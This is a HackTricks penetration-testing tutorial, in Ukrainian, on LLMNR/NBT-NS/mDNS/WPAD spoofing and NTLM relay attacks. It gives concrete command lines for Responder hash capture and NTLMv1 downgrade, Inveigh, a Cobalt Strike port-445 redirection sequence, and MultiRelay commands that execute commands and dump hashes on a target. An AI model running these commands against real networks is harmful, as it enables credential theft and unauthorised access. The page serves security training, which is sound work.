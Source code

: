 # Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Мережеві протоколи

### Протоколи локального розв'язання імен
- **LLMNR, NBT-NS та mDNS**:
- Microsoft та інші операційні системи використовують LLMNR та NBT-NS для локального розв'язання імен, коли DNS не працює. Аналогічно, системи Apple та Linux використовують mDNS.
- Ці протоколи підлягають перехопленню та спуфінгу через їхню неавтентифіковану, широкомовну природу через UDP.
- [Responder](https://github.com/lgandx/Responder) може бути використаний для наслідування сервісів, надсилаючи підроблені відповіді до хостів, які запитують ці протоколи.
- Додаткову інформацію про наслідування сервісів за допомогою Responder можна знайти [тут](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Протокол автоматичного виявлення веб-проксі (WPAD)
- WPAD дозволяє браузерам автоматично виявляти налаштування проксі.
- Виявлення здійснюється через DHCP, DNS або повернення до LLMNR та NBT-NS, якщо DNS не працює.
- Responder може автоматизувати атаки WPAD, направляючи клієнтів до шкідливих WPAD-серверів.

### Responder для отруєння протоколів
- **Responder** - це інструмент, що використовується для отруєння запитів LLMNR, NBT-NS та mDNS, вибірково відповідаючи на основі типів запитів, переважно націлюючись на SMB-сервіси.
- Він попередньо встановлений у Kali Linux, налаштовується в `/etc/responder/Responder.conf`.
- Responder відображає захоплені хеші на екрані та зберігає їх у каталозі `/usr/share/responder/logs`.
- Він підтримує як IPv4, так і IPv6.
- Версія Responder для Windows доступна [тут](https://github.com/lgandx/Responder-Windows).

#### Запуск Responder
- Щоб запустити Responder з налаштуваннями за замовчуванням: `responder -I <Interface>`
- Для більш агресивного прослуховування (з потенційними побічними ефектами): `responder -I <Interface> -P -r -v`
- Техніки для захоплення NTLMv1 викликів/відповідей для легшого злому: `responder -I <Interface> --lm --disable-ess`
- Наслідування WPAD можна активувати за допомогою: `responder -I <Interface> --wpad`
- Запити NetBIOS можуть бути вирішені на IP-адресу атакуючого, і можна налаштувати проксі для аутентифікації: `responder.py -I <interface> -Pv`

### Отруєння DHCP за допомогою Responder
- Спуфінг DHCP-відповідей може постійно отруїти маршрутизаційну інформацію жертви, пропонуючи більш прихований варіант, ніж отруєння ARP.
- Це вимагає точного знання конфігурації цільової мережі.
- Запуск атаки: `./Responder.py -I eth0 -Pdv`
- Цей метод може ефективно захоплювати NTLMv1/2 хеші, але вимагає обережного поводження, щоб уникнути порушення мережі.

### Захоплення облікових даних за допомогою Responder
- Responder буде наслідувати сервіси, використовуючи вищезгадані протоколи, захоплюючи облікові дані (зазвичай NTLMv2 Challenge/Response), коли користувач намагається аутентифікуватися проти спуфлених сервісів.
- Можна спробувати знизити до NetNTLMv1 або вимкнути ESS для легшого злому облікових даних.

Важливо зазначити, що використання цих технік повинно здійснюватися законно та етично, забезпечуючи належну авторизацію та уникаючи порушення або несанкціонованого доступу.

## Inveigh

Inveigh - це інструмент для тестувальників на проникнення та червоних команд, розроблений для систем Windows. Він пропонує функціональність, подібну до Responder, виконуючи спуфінг та атаки "людина посередині". Інструмент еволюціонував з PowerShell-скрипта до бінарного файлу C#, з [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) та [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) як основними версіями. Детальні параметри та інструкції можна знайти в [**вікі**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh можна запускати через PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Або виконано як бінарний файл C#:
```bash
Inveigh.exe
```
### NTLM Relay Attack

Ця атака використовує сесії аутентифікації SMB для доступу до цільової машини, надаючи системну оболонку у разі успіху. Основні передумови включають:
- Аутентифікований користувач повинен мати доступ до локального адміністратора на пересланому хості.
- Підписування SMB повинно бути вимкнено.

#### 445 Port Forwarding and Tunneling

У сценаріях, де пряма мережна інтеграція неможлива, трафік на порту 445 потрібно переслати та тунелювати. Інструменти, такі як [**PortBender**](https://github.com/praetorian-inc/PortBender), допомагають перенаправити трафік порту 445 на інший порт, що є необхідним, коли доступ адміністратора локально доступний для завантаження драйверів.

PortBender налаштування та робота в Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Інші інструменти для атаки NTLM Relay

- **Metasploit**: Налаштування з проксі, деталями локального та віддаленого хостів.
- **smbrelayx**: Скрипт на Python для релеювання SMB-сесій та виконання команд або розгортання бекдорів.
- **MultiRelay**: Інструмент з набору Responder для релеювання конкретних користувачів або всіх користувачів, виконання команд або вивантаження хешів.

Кожен інструмент можна налаштувати для роботи через SOCKS-проксі, якщо це необхідно, що дозволяє проводити атаки навіть з непрямим доступом до мережі.

### Операція MultiRelay

MultiRelay виконується з директорії _**/usr/share/responder/tools**_, націлюючись на конкретні IP-адреси або користувачів.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
Ці інструменти та техніки формують всебічний набір для проведення атак NTLM Relay в різних мережевих середовищах.

### Примус NTLM Логінів

У Windows ви **можете примусити деякі привілейовані облікові записи автентифікуватися на довільних машинах**. Прочитайте наступну сторінку, щоб дізнатися як:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Посилання
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
